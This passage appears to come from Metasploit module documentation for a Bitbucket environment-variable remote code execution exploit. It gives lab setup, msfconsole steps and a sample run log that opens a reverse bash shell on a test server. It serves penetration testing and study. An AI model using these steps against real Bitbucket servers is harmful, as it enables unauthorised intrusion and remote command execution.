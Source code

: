 18. Finally, set up an administrator account

*Note*: If an error occurs on the last step, just open a browser and navigate to the setup
page at 127.0.0.1:7990. If installing an 8.* version of Bitbucket, you will need to create
a `bitbucket.properties` file at `/var/atlassian/application-data/bitbucket/shared`. Once created,
add the line `mesh.enabled=false`, save the file, and restart Bitbucket.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/bitbucket_env_var_rce`
4. Do: `set USERNAME <username>`
5. Do: `set PASSWORD <pass>`
6. Do: `set RHOST <target_ip>`
7. Do: `set LHOST <listen_ip>`
8. Do: `run`
9. You should get a shell.

## Options

### USERNAME

Username to authenticate with and has at least admin privileges

### PASSWORD

Password to authenticate with

## Scenarios

### Ubuntu 22.04 x64 - Bitbucket `v7.6.17`, CMD Target

```
msf6 > use exploit/multi/http/bitbucket_env_var_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/bitbucket_env_var_rce) > set rhost 192.168.140.149
rhost => 192.168.140.149
msf6 exploit(multi/http/bitbucket_env_var_rce) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(multi/http/bitbucket_env_var_rce) > set username test
username => test
msf6 exploit(multi/http/bitbucket_env_var_rce) > set password password
password => password
msf6 exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] No accessible repositories. Will attempt to create a repo
[*] Failed to find valid project information. Will attempt to create repo
[*] Project creation was successful
[+] Successfully created repository 'fjNMKiB'
[+] Commits added: 9e03047ab0802438c2058e49ec757a7be8d222eb, f7683fcc92840ff94e609c8b0a99e165edb5aa7d
[*] Sending payload
[*] Command shell session 1 opened (192.168.140.1:4444 -> 192.168.140.149:41118) at 2023-03-13 14:04:00 -0500
[*] Changing user name back to 'test'
[+] Repository has been deleted
[+] Project has been deleted

uname -a
```